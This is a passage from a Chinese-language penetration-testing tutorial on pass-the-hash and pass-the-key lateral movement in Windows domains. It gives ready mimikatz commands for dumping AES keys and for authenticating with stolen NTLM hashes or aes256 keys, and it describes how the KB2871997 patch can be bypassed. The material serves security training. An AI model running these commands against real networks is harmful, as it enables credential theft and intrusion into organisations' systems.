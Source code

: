   * 

    
    
    sekurlsa::pth /user:administrator /domain:tubai.com /ntlm:2b07f7b579bb97532a9eb37753765d8f "/run:mstsc.exe /restrictedadmin"

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810085737.png)PTK  

如果hash的ntlm hash，然后加密方式是rc4，这种就算做是pass the hash，如果是hash是aes
key(使用sekurlsa::ekeys导出来)，就算是pass the key。在很多地方，不支持rc4加密方式的时候，使用pass the
key不失为一种好方法。

安装补丁kb2871997的Win 7/2008r2/8/2012等，可以使用AES keys代替NT hash来实现ptk攻击。

前提条件：只适用于域环境，并且目标主机需要安装 KB2871997补丁

mimkatz抓AES keys密钥

    
    
    mimikatz "privilege::debug" "sekurlsa::ekeys"

导入  

  * 

    
    
    mimikatz "privilege::debug" "sekurlsa::pth /user:win7 /domain:tubai.com /aes256:c4388a1fb9bd65a88343a32c09e53ba6c1ead4de8a17a442e819e98c522fc288"

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810085737.png)补丁限制：kb2871997  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810085757.png)

  

对PTH攻击做了限制的补丁，他使本地账号不再用于远程接入系统。

kb2871997对于本地Administrator(rid为500，操作系统只认rid不认用户名)和本地管理员组的域用户是没有影响的。

参考：

    
    
    https://my.oschina.net/u/4327596/blog/3426286  
    https://blog.csdn.net/Gamma_lab/article/details/118335958

总结：PTH是内网横向最常用的方式，利用的攻击思路也很多，远远不止给大家分享的这些。各位师傅要是有更多的利用姿势可以一起交流学习！今天给大家从ntlm认证原理到PTH在横向中多姿势利用做了总结，比较全面的汇总了PTH在内网横向中的各种手段。  

  

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇
